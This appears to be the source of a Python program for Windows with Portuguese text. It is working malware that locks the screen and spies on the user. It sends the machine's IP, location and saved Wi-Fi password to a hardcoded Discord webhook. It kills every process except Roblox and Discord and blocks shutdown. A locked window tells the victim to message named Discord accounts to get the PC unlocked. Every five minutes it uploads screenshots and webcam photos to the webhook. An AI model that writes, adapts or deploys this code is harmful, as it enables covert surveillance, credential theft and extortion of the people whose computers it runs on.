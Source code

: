 import os
import shutil
import socket
import requests
import pyautogui
import cv2
import time
import tempfile
import subprocess
import ctypes
from datetime import datetime
from threading import Thread
import pytz
import tkinter as tk
from tkinter import messagebox
import keyboard  # para ouvir atalhos de teclado

# --- CONFIGURAÇÕES ---
WEBHOOK_URL = "https://discord.com/api/webhooks/1394031732721979422/doqnuLAykcwssJWYCTJ5hdR-zLIiPj716YuOGAwvqQ_XRAYP3dwtg6QsLogDzi5sSL8A"
CODIGO_SECRETO = "jolgue"  # Código para desbloquear
INTERVALO_MINUTOS = 5
APPS_PERMITIDOS = ["RobloxPlayerBeta.exe", "Discord.exe"]
TEXTO_AVISO = (
    "⚠️ Está tudo bloqueado tirando o Roblox e o Discord.\n"
    "Fala com o “goncal_fruits._69394” ou com o “jolgue_011” no Discord para desbloquear o teu PC."
)

# --- FUNÇÕES AUXILIARES ---

def enviar_webhook(mensagem, ficheiro=None):
    data = {"content": mensagem}
    files = {}
    if ficheiro:
        files["file"] = (os.path.basename(ficheiro), open(ficheiro, 'rb'))
    requests.post(WEBHOOK_URL, data=data, files=files)

def obter_ip_localizacao():
    try:
        response = requests.get("http://ip-api.com/json/")
        info = response.json()
        return (
            f"IP: {info.get('query')}\n"
            f"Cidade: {info.get('city')}\n"
            f"Região: {info.get('regionName')}\n"
            f"País: {info.get('country')}\n"
            f"ISP: {info.get('isp')}\n"
        )
    except:
        return "Não foi possível obter a localização."

def obter_ssid():
    try:
        resultado = subprocess.check_output(['netsh', 'wlan', 'show', 'interfaces'], encoding='utf-8')
        for linha in resultado.split('\n'):
            if 'SSID' in linha and 'BSSID' not in linha:
                return linha.split(':')[1].strip()
    except:
        return "Não foi possível obter o SSID"

def obter_senha_wifi(ssid):
    try:
        resultado = subprocess.check_output(['netsh', 'wlan', 'show', 'profile', ssid, 'key=clear'], encoding='utf-8')
        for linha in resultado.split('\n'):
            if 'Key Content' in linha:
                return linha.split(':')[1].strip()
        return "Senha não encontrada"
    except:
        return "Não foi possível obter a senha"

def tirar_screenshot():
    caminho = os.path.join(tempfile.gettempdir(), "screenshot.png")
    screenshot = pyautogui.screenshot()
    screenshot.save(caminho)
    return caminho

def tirar_foto_webcam():
    caminho = os.path.join(tempfile.gettempdir(), "webcam.png")
    cam = cv2.VideoCapture(0)
    ret, frame = cam.read()
    if ret:
        cv2.imwrite(caminho, frame)
    cam.release()
    return caminho

def bloquear_apps():
    while True:
        if desbloqueado[0]:
            break
        procs = subprocess.check_output('tasklist', shell=True).decode(errors="ignore")
        for linha in procs.split("\n"):
            for proc in linha.split():
                if proc.endswith(".exe") and proc not in APPS_PERMITIDOS:
                    try:
                        subprocess.call(f"taskkill /f /im {proc}", stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
                    except:
                        pass
        # Bloquear encerrar e reiniciar
        try:
            subprocess.call("shutdown -a", stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
        except:
            pass
        time.sleep(1)

def definir_papel_preto():
    SPI_SETDESKWALLPAPER = 20
    preto_path = os.path.join(tempfile.gettempdir(), "preto.bmp")
    # Criar imagem preta
    with open(preto_path, 'wb') as f:
        f.write(b'BM6\x00\x00\x00\x00\x00\x006\x00\x00\x00(\x00\x00\x00\x01\x00\x00\x00\x01\x00\x00\x00\x01\x00'
                b'\x18\x00\x00\x00\x00\x00\x00\x00\x00\x00\x13\x0B\x00\x00\x13\x0B\x00\x00\x00\x00\x00\x00\x00\x00'
                b'\x00\x00\x00\x00\x00\x00\x00')
    ctypes.windll.user32.SystemParametersInfoW(SPI_SETDESKWALLPAPER, 0, preto_path, 3)

def obter_horas():
    hora_local = datetime.now().strftime("%Y-%m-%d %H:%M:%S")
    try:
        fuso_portugal = pytz.timezone("Europe/Lisbon")
        hora_portugal = datetime.now(fuso_portugal).strftime("%Y-%m-%d %H:%M:%S")
    except:
        hora_portugal = "Erro ao obter hora Portugal"
    return hora_local, hora_portugal

def janela_mensagem():
    def continuar():
        root.destroy()
        janela_desbloqueio()

    root = tk.Tk()
    root.title("PC Bloqueado")
    root.geometry("600x300")
    root.attributes('-topmost', True)
    root.protocol("WM_DELETE_WINDOW", lambda: None)
    tk.Label(root, text=TEXTO_AVISO, font=("Arial", 14), justify="center", wraplength=500).pack(pady=40)
    tk.Button(root, text="OK", command=continuar, font=("Arial", 12)).pack(pady=20)
    root.mainloop()

def janela_desbloqueio():
    def tentar_desbloquear():
        if entrada.get() == CODIGO_SECRETO:
            desbloqueado[0] = True
            enviar_webhook("🔓 Código correto inserido. PC desbloqueado.")
            root.destroy()
        else:
            messagebox.showerror("Erro", "Código incorreto!")

    root = tk.Tk()
    root.title("PC Bloqueado")
    root.geometry("400x200")
    root.attributes('-topmost', True)
    root.protocol("WM_DELETE_WINDOW", lambda: None)
    tk.Label(root, text="Insira o código para desbloquear:", font=("Arial", 14)).pack(pady=20)
    entrada = tk.Entry(root, font=("Arial", 14), show="*")
    entrada.pack(pady=10)
    tk.Button(root, text="Desbloquear", command=tentar_desbloquear, font=("Arial", 12)).pack(pady=10)
    root.mainloop()

def atalho_secreto():
    keyboard.add_hotkey('ctrl+shift+g', desbloquear_forcado)

def desbloquear_forcado():
    if not desbloqueado[0]:
        desbloqueado[0] = True
        enviar_webhook("🚨 PC desbloqueado com CTRL+SHIFT+G (atalho de emergência)")

# --- EXECUÇÃO INICIAL ---
hostname = socket.gethostname()
info_localizacao = obter_ip_localizacao()
ssid = obter_ssid()
senha_wifi = obter_senha_wifi(ssid)

enviar_webhook(
    f"📡 Monitorização iniciada no PC: {hostname}\n"
    f"{info_localizacao}"
    f"Wi-Fi: {ssid}\n"
    f"Senha Wi-Fi: {senha_wifi}\n"
)

desbloqueado = [False]

# Definir papel de parede preto
definir_papel_preto()

# --- THREADS ---
Thread(target=bloquear_apps, daemon=True).start()
Thread(target=janela_mensagem, daemon=True).start()
Thread(target=atalho_secreto, daemon=True).start()

# --- LOOP CONTÍNUO ---
while not desbloqueado[0]:
    try:
        hora_local, hora_portugal = obter_horas()

        screenshot = tirar_screenshot()
        enviar_webhook(f"🖥️ Screenshot de {hostname} | Hora PC: {hora_local} | Hora Portugal: {hora_portugal}", ficheiro=screenshot)
        os.remove(screenshot)

        webcam = tirar_foto_webcam()
        enviar_webhook(f"📷 Webcam de {hostname} | Hora PC: {hora_local} | Hora Portugal: {hora_portugal}", ficheiro=webcam)
        os.remove(webcam)
    except Exception as e:
        enviar_webhook(f"⚠️ Erro: {e}")

    time.sleep(INTERVALO_MINUTOS * 60)
